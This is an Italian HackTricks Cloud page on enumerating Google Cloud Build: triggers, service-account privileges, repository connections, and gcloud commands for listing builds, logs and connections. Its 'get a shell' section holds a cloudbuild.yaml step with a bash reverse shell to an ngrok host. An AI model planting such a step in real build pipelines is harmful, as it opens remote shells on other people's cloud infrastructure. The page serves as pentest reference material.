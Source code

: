 # GCP - Enumerazione di Cloud Build

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Informazioni di base

Google Cloud Build è una piattaforma CI/CD gestita che **automatizza la compilazione del software** e i processi di rilascio, integrandosi con **repository di codice sorgente** e supportando una vasta gamma di linguaggi di programmazione. Consente agli sviluppatori di **compilare, testare e distribuire automaticamente il codice** offrendo al contempo la flessibilità di personalizzare le fasi di compilazione e i flussi di lavoro.

Ogni Cloud Build Trigger è **collegato a un Cloud Repository o collegato direttamente a un repository esterno** (Github, Bitbucket e Gitlab).

{% hint style="success" %}
Non ho visto alcun modo per rubare il token di Github/Bitbucket da qui o dai Cloud Repositories perché quando il repository viene scaricato viene accessibile tramite un URL [https://source.cloud.google.com/](https://source.cloud.google.com/) e Github non viene accessibile dal client.
{% endhint %}

### Eventi

Cloud Build può essere attivato se:

* **Push su un branch**: Specificare il branch
* **Push di un nuovo tag**: Specificare il tag
* **Pull request**: Specificare il branch che riceve la PR
* **Invocazione manuale**
* **Messaggio Pub/Sub**: Specificare l'argomento
* **Evento webhook**: Esporrà un URL HTTPS e la richiesta deve essere autenticata con un segreto

### Esecuzione

Ci sono 3 opzioni:

* Un file yaml/json **che specifica i comandi** da eseguire. Di solito: `/cloudbuild.yaml`
* Solo uno che può essere specificato "inline" nella console web e nella CLI
* Opzione più comune
* Rilevante per l'accesso non autenticato
* Un **Dockerfile** da compilare
* Un **Buildpack** da compilare

### Autorizzazioni SA

Il **Service Account ha lo scope `cloud-platform`**, quindi può **usare tutti i privilegi**. Se **nessun SA viene specificato** (come quando si esegue il submit) verrà utilizzato il **SA predefinito** `<proj-number>@cloudbuild.gserviceaccount.com`.

Di default non vengono fornite autorizzazioni, ma è abbastanza facile fornirne alcune:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Approvazioni

È possibile configurare un Cloud Build per **richiedere approvazioni per l'esecuzione della compilazione** (disabilitato per impostazione predefinita).

### Connessioni e Repository

Le connessioni possono essere create su:

* **GitHub:** Mostrerà un prompt OAuth che chiederà le autorizzazioni per **ottenere un token Github** che verrà memorizzato all'interno del **Secret Manager**.
* **GitHub Enterprise:** Chiederà di installare un **GithubApp**. Verrà creato e memorizzato in questo progetto un **token di autenticazione** dal tuo host GitHub Enterprise come segreto del **Secret Manager**.
* **GitLab / Enterprise:** È necessario **fornire il token di accesso API e il token di accesso API di lettura** che verranno memorizzati nel **Secret Manager**.

Una volta generata una connessione, è possibile utilizzarla per **collegare i repository a cui l'account Github ha accesso**.

Questa opzione è disponibile tramite il pulsante:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Si noti che i repository collegati con questo metodo sono **disponibili solo nei Trigger che utilizzano la 2a generazione**.
{% endhint %}

### Collega un Repository

Questo non è lo stesso di una **`connessione`**. Questo consente **diversi** modi per ottenere **accesso a un repository Github o Bitbucket** ma **non genera un oggetto di connessione, ma genera un oggetto repository (di 1a generazione).**

Questa opzione è disponibile tramite il pulsante:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Archiviazione

A volte Cloud Build **genererà un nuovo archivio per archiviare i file per il trigger**. Questo accade ad esempio nell'esempio che GCP offre con:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket di archiviazione chiamato [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) viene creato per archiviare un file `.tgz` con i file da utilizzare.

### Ottieni la shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumerazione

Potresti trovare **informazioni sensibili nelle configurazioni e nei log di build**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Escalazione dei privilegi

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Accesso non autenticato

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post Esploitation

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

